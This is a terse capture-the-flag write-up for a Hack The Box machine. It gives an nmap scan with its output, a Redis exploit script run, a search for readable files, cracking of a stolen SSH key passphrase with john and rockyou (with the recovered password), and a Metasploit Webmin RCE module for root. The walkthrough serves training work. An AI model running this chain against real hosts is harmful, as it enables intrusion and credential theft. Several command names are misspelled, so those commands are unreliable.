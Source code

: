 # 1 Nmap scan
sudo nmap -T5 -p- -A 10.10.10.160

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-02 20:36 CET
Warning: 10.10.10.160 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.10.160
Host is up (0.055s latency).
Not shown: 63183 closed ports, 2348 filtered ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Aggressive OS guesses: Linux 3.2 - 4.9 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.18 (94%), Linux 3.16 (93%), ASUS RT-N56U WAP (Linux 3.4) (93%), Oracle VM Server 3.4.2 (Linux 4.1) (93%), Android 4.1.1 (93%), Adtran 424RG FTTH gateway (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8080/tcp)
HOP RTT      ADDRESS
1   54.71 ms 10.10.14.1
2   55.01 ms 10.10.10.160

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 116.97 seconds
```

# 2 exploiting redis 
[Avanash-acid repo][1]
```
python redis.py 10.10.10.160 redis
```
Doing a ls /home shows our target ***Matt***

# 3 pwning Matt

Listing readable files 
```
find / -type f -readable
```
download /opt/idrsa.bak 
```
ssh2jhon idrsa idrsa_jhon
zcat /usr/share/wordlists/rockyou.txt.gz |john --stdin idrsa_john (Matt:computer2008)
su Matt
```
# 4 pwning root

[metasploit linux/http/webmin_packageup_rce][2]   (authenticated exploit) 

[//]: Links
[1]: https://github.com/Avinash-acid/Redis-Server-Exploit
[2]: https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/linux/http/webmin_packageup_rce.md

![badge](https://www.hackthebox.eu/badge/image/272787)
